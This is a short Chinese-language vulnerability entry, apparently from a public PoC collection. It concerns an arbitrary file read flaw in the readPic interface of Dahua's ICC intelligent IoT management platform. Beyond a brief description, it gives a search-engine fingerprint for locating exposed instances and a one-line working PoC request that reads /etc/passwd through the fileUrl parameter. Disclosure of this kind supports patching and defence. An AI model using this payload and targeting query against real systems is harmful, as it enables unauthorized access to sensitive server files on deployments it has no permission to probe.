

# 大华 ICC智能物联综合管理平台 readPic 任意文件读取漏洞

## 漏洞描述

大化 ICC智能物联综合管理平台 readPic 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

大华 ICC智能物联综合管理平台

## 网络测绘

```
body="*客户端会小于800*"
```

## 漏洞复现

登陆页面


poc

```
/evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd
```

